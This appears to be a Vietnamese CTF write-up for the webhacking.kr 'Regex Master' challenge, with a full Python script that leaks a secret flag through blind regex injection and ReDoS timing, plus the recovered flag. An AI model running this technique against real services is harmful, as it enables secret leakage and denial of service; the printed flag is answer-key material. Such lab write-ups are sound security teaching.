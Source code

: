 ```yaml
---
title: Regex Master - webhacking.kr
description: From webhacking.kr
author: to^
date: 2022-04-02 2:39:00 +0700
categories: [WecSec, CTF, webhacking.kr]
tags: [timing attack, blind attack]     # TAG names should always be lowercase
img_path: /assets/img/
image:
 src: blind_re_inject/webhackingkr_logo.png
 alt: webhackingkr logo
 width: 1000
 height: 400
---
```


## _Link challenge_
<http://regexmaster.webhacking.kr>

## _Source code_
![source_code](blind_re_inject/source_code.png)
_source code_

## _Phân tích_
Ở bài này source code rất đơn giản, chỉ kiểm tra xem biến flag có chứa chuỗi `parttern` (nhận từ GET request) hay không mà không hề xuất ra kết quả hay output nào khác.
Sau một hồi suy nghĩ thì mình quyết định thử khai thác bằng `blind regex injection` + `timing attack`
Để hiểu chi tiết hơn về kĩ thuật này các bạn có thể [đây](https://diary.shift-js.info/blind-regular-expression-injection/)

## _Khai thác_
```py
import requests
import sys
import time
import random
import string
import re

# constants
THRESHOLD = 1
url = 'http://regexmaster.webhacking.kr/?pattern='
# predicates


def length_is(n):
    return ".{" + str(n) + "}$"


def nth_char_is(n, c):
    if c == '/':
        return ".{" + str(n-1) + "}" + '\/' + ".*$"
    if c == '\\':
        return ".{" + str(n-1) + "}" + '\\\\' + ".*$"
    return ".{" + str(n-1) + "}" + re.escape(c) + ".*$"

# utilities


def redos_if(regexp, salt):
    return "^(?={})(((((.*)*)*)*)*)*{}".format(regexp, salt)


def get_request_duration(payload):
    # print(payload)
    try:
        r = requests.get(url+payload)
        duration = r.elapsed.total_seconds()
    except:
        duration = -1
        exit(1)
    # print(duration)
    return duration


def prop_holds(prop, salt):
    return get_request_duration(redos_if(prop, salt)) > THRESHOLD


def generate_salt():
    return ''.join([random.choice(string.ascii_letters) for i in range(10)])


# exploit
if __name__ == '__main__':
    # generating salt
    salt = generate_salt()
    while not prop_holds('.*', salt):
        salt = generate_salt()
    print("[+] salt: {}".format(salt))

    # leak length
    upper_bound = 100
    secret_length = 0
    for i in range(0, upper_bound):
        if prop_holds(length_is(i), salt):
            secret_length = i
            break
    print("[+] length: {}".format(secret_length))

    flag = "FLAG{"
    for i in range(5, secret_length):
        stop = 0
        for c in range(32, 128):
            if prop_holds(nth_char_is(i+1, chr(c)), salt):
                flag += chr(c)
                print("[*] {}".format(flag))
                stop = 1
                break
    print("[+] Flag: {}".format(flag))  
```

> FLAG{im_r/e/g/e/x_master//_//}
{: .prompt-info  }
## _Tham khảo_
<https://diary.shift-js.info/blind-regular-expression-injection>
